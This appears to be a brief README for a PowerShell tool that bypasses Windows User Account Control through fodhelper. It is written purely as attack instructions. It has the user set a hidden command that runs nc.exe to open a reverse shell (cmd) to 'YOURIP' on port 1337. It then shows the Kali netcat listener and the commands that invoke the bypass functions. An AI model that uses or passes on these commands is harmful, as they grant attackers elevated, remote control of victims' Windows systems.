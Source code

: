 # Bypass UAC 

Before importing the file, please edit the "**BypassUACfodhelper.ps1**" file in the following section:: 

```
$CMD = "powershell -windowstyle hidden C:\Windows\Temp\nc.exe YOURIP 1337 -e cmd"
```

### Execute:
```
kali@unix:/$ rlwrap nc -lvp 1337
```

```
Windows (Poweshell)> . .\BypassUACfodhelper.ps1
Windows (Poweshell)> UACBypass1
OR
Windows (Poweshell)> UACBypass2
```
